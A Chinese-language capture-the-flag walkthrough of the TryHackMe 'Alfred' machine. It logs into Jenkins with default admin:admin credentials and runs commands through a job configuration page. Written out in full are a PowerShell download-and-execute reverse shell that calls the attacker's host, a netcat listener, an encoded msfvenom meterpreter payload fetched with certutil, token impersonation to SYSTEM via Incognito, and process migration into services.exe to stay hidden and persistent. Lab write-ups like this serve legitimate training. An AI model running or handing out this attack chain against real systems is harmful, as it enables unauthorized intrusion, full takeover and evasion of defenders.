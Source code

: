 # Alfred

nmap扫描

```shell
sudo nmap -sT --min-rate 10000 -p- 10.10.32.178 -Pn

PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy

sudo nmap -sT -sV -sC -O -p80,3389,8080 10.10.32.178 -Pn

PORT     STATE SERVICE        VERSION
80/tcp   open  http           Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
3389/tcp open  ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-05-04T06:16:24
|_Not valid after:  2025-11-03T06:16:24
|_ssl-date: 2025-05-05T06:29:52+00:00; -1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2025-05-05T06:29:47+00:00
8080/tcp open  http           Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

80和8080端口上都运行着一个web服务

打开发现8080端口上是一个Jenkins的登陆页面

尝试使用弱密码登录

```tex
admin:admin
```

然后在/job/project/configure目录下找到一个允许执行命令的功能

设置好监听端口，启动好服务器，尝试getshell

```shell
sudo nc -lvnp 4444

python -m http.server 5555

powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

成功getshell,尝试提权

为了更好的提权，我们改使用meterpreter

```shell
#生成一个反向shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o shell-name.exe

#下载
certutil -urlcache -f http://<you IP>:8000/shell-name.exe shell-name.exe

#设置监听
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run

#运行反向shell
.\shell-name.exe
```

查看权限

```shell
whoami /priv

Privilege Name                  Description                               State   
=============================== ========================================= ========
SeDebugPrivilege                Debug programs                            Enabled 
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled 
SeImpersonatePrivilege          Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege         Create global objects                     Enabled 
```

让我们使用incognito模块来利用这个漏洞

```tex
Metasploit 的 Incognito 是 Metasploit 框架中的一个扩展模块，专门用于模拟和滥用 Windows 系统中的令牌（Token） impersonation（令牌窃取/假冒）技术。

Incognito 的核心功能
令牌窃取（Token Stealing）

允许攻击者假冒其他用户的身份（如管理员或高权限用户），利用现有的令牌绕过身份验证。

例如，通过窃取一个已登录的域管理员令牌，攻击者可以访问域内其他系统。

权限提升（Privilege Escalation）

通过假冒高权限令牌（如 SYSTEM 或管理员），将当前会话的权限提升至更高级别。

横向移动（Lateral Movement）

在已攻陷的机器上，利用窃取的令牌访问网络中的其他主机（如通过 psexec 或 wmi）。
```

```shell
#加载该模块
load incognito

#检查哪些令牌可用
list_tokens -g

BUILTIN\Administrators
BUILTIN\Users

#模拟管理员令牌
impersonate_token "BUILTIN\Administrators"

getuid

NT AUTHORITY\SYSTEM
```

成功拿到管理员权限



**“请确保你将 Meterpreter 会话迁移（migrate）到一个具有合适权限的进程中。最安全的选择是迁移到 `services.exe` 进程。具体步骤如下：**

1. **先用 `ps` 命令查看当前运行的进程，找到 `services.exe` 的 PID（进程ID）。**
2. **然后使用 `migrate PID-OF-PROCESS` 命令将会话迁移到该进程中。”**

### **详细解释**

1. **为什么要迁移进程？**
   - Meterpreter 默认可能运行在容易被杀毒软件检测或意外终止的进程（如 `explorer.exe`）。
   - 迁移到更稳定的系统进程（如 `services.exe`）可以增强隐蔽性和持久性。
2. **为什么选 `services.exe`？**
   - 它是 Windows 的核心系统进程，通常具有 `SYSTEM` 权限，适合后续提权操作。
   - 该进程一般不会退出，能保持会话稳定。

**操作步骤示例（在 Meterpreter 中）**

```
# 1. 列出所有进程，找到 services.exe 的 PID
ps

# 2. 迁移到 services.exe（假设 PID 为 1234）
migrate 1234
```